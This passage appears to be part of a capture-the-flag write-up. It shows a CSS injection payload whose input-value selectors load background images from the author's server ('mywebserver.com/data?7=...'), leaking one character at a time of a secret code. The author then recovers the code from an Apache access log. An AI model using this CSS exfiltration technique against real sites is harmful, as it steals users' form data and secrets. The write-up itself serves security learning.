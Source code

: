 ```
input[value=W]:nth-of-type(7) { background-image: url("https://mywebserver.com/data?7=W"); }
input[value=X]:nth-of-type(7) { background-image: url("https://mywebserver.com/data?7=X"); }
input[value=Y]:nth-of-type(7) { background-image: url("https://mywebserver.com/data?7=Y"); }
input[value=Z]:nth-of-type(7) { background-image: url("https://mywebserver.com/data?7=Z"); }
input[value=a]:nth-of-type(7) { background-image: url("https://mywebserver.com/data?7=a"); }
input[value=b]:nth-of-type(7) { background-image: url("https://mywebserver.com/data?7=b"); }
input[value=c]:nth-of-type(7) { background-image: url("https://mywebserver.com/data?7=c"); }
input[value=d]:nth-of-type(7) { background-image: url("https://mywebserver.com/data?7=d"); }
input[value=e]:nth-of-type(7) { background-image: url("https://mywebserver.com/data?7=e"); }
input[value=f]:nth-of-type(7) { background-image: url("https://mywebserver.com/data?7=f"); }
input[value=g]:nth-of-type(7) { background-image: url("https://mywebserver.com/data?7=g"); }
input[value=h]:nth-of-type(7) { background-image: url("https://mywebserver.com/data?7=h"); }
input[value=i]:nth-of-type(7) { background-image: url("https://mywebserver.com/data?7=i"); }
input[value=j]:nth-of-type(7) { background-image: url("https://mywebserver.com/data?7=j"); }
input[value=k]:nth-of-type(7) { background-image: url("https://mywebserver.com/data?7=k"); }
input[value=l]:nth-of-type(7) { background-image: url("https://mywebserver.com/data?7=l"); }
input[value=m]:nth-of-type(7) { background-image: url("https://mywebserver.com/data?7=m"); }
input[value=n]:nth-of-type(7) { background-image: url("https://mywebserver.com/data?7=n"); }
input[value=o]:nth-of-type(7) { background-image: url("https://mywebserver.com/data?7=o"); }
input[value=p]:nth-of-type(7) { background-image: url("https://mywebserver.com/data?7=p"); }
input[value=q]:nth-of-type(7) { background-image: url("https://mywebserver.com/data?7=q"); }
input[value=r]:nth-of-type(7) { background-image: url("https://mywebserver.com/data?7=r"); }
input[value=s]:nth-of-type(7) { background-image: url("https://mywebserver.com/data?7=s"); }
input[value=t]:nth-of-type(7) { background-image: url("https://mywebserver.com/data?7=t"); }
input[value=u]:nth-of-type(7) { background-image: url("https://mywebserver.com/data?7=u"); }
input[value=v]:nth-of-type(7) { background-image: url("https://mywebserver.com/data?7=v"); }
input[value=w]:nth-of-type(7) { background-image: url("https://mywebserver.com/data?7=w"); }
input[value=x]:nth-of-type(7) { background-image: url("https://mywebserver.com/data?7=x"); }
input[value=y]:nth-of-type(7) { background-image: url("https://mywebserver.com/data?7=y"); }
input[value=z]:nth-of-type(7) { background-image: url("https://mywebserver.com/data?7=z"); }
input[value=0]:nth-of-type(7) { background-image: url("https://mywebserver.com/data?7=0"); }
input[value=1]:nth-of-type(7) { background-image: url("https://mywebserver.com/data?7=1"); }
input[value=2]:nth-of-type(7) { background-image: url("https://mywebserver.com/data?7=2"); }
input[value=3]:nth-of-type(7) { background-image: url("https://mywebserver.com/data?7=3"); }
input[value=4]:nth-of-type(7) { background-image: url("https://mywebserver.com/data?7=4"); }
input[value=5]:nth-of-type(7) { background-image: url("https://mywebserver.com/data?7=5"); }
input[value=6]:nth-of-type(7) { background-image: url("https://mywebserver.com/data?7=6"); }
input[value=7]:nth-of-type(7) { background-image: url("https://mywebserver.com/data?7=7"); }
input[value=8]:nth-of-type(7) { background-image: url("https://mywebserver.com/data?7=8"); }
input[value=9]:nth-of-type(7) { background-image: url("https://mywebserver.com/data?7=9"); }
```

Then looking at my **Apache access.log** I found all the valid codes!

{F856479}

Then by finally inserting all the code characters in the right position I reached the end of CTF!

{F856490}

*Ad maiora...*


